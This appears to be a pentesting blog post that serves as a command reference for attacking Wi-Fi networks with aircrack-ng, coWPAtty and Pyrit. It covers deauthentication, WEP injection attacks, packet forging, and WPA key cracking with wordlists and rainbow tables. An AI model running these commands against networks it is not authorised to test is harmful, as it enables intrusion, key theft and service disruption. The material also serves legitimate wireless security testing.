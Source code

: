 ```yaml
---
title: Attacking Wifi - Commands
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
layout: post
---
```

This post will highlight many of the different aircrack-ng commands used in hacking/pen testing wireless networks.  This post does not go into the how, but is more of a reference of the commands and parameters.

[TOC]

## General

#### Monitor Mode
There are a couple different options for putting your wifi adapter into monitor mode.

> `iw dev <interface> set monitor none`

> `airmon-ng start <interface>`

#### Scanning Networks
Airodump-ng is used to scan for wifi networks and clients that are in the range of your wireless card

> `airodump-ng -c <channel> -w <capture> --wps --band abg --essid <essid> --bssid <bssid> <int>`

The following flags are all optional
* -c <channel> - This will filter your scan to a specific wifi channel
* --wps - This flag will include WPS information for wireless networks found
* -w <capture> - This flag will write the scan results to a file
* --band <bands> - This flag allows you to only scan wifi networks operating on specified bands
* --essid <essid> - This flag will filter the scan to a specific Client
* --bssid <bssid> - This flag will filter the scan to a specific AP

#### Deauthentication Attack
> `aireplay-ng -0 1 -a <ap> -c <client> <int>`

## Cracking

#### IV-based Crack
> `aircrack-ng <capture>`

#### PTW-based Crack
> `aircrack-ng -z <capture>`

#### Word List-based Crack
> `aircrack-ng -w <wordlist> <capture>`

#### Airolib DB Crack
> `aircrack-ng -r <dbName> <capture>`

#### JTR-based Crack
> `john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <essid> -w - <capture>`

## WEP Attacks

#### Fake Authentication
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

#### ARP Request Replay Attack
> `aireplay-ng -3 -b <ap> -h <you> <interface>`

#### Interactive Packet Replay Attack
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

#### KoreK chopchop attack
> `aireplay-ng -4 -b <ap> -h <you> <interface>`

#### Fragmentaion Attack
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

#### Craft ARP Request Packet**
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

#### Inject Packet**
> `aireplay-ng -2 -r <packet> <interface>`

#### Fake Shared Key Authentication
> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

## WPA Attacks

#### coWPAtty Attack 
> `cowpatty -r <capture> -f <wordlist> -2 -s <essid>`

#### Rainbow Table Generation
> `genpmk -f <wordlist> -d <hashesFilename> -s <essid>`

#### Rainbow Table coWPAtty Attack
> `cowpatty -r <capture> -d <hashesFilename> -2 -s <essid>`

#### Pyrit Sniff
> `pyrit -r <interface> -o <capture> stripLive`

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point
> `pyrit -e <essid> create_essid`

Generate PMKs for the ESSID
> `pyrit batch`

Launch Pyrit in database mode
> `pyrit -r <capture> -b <ap> attack_db`


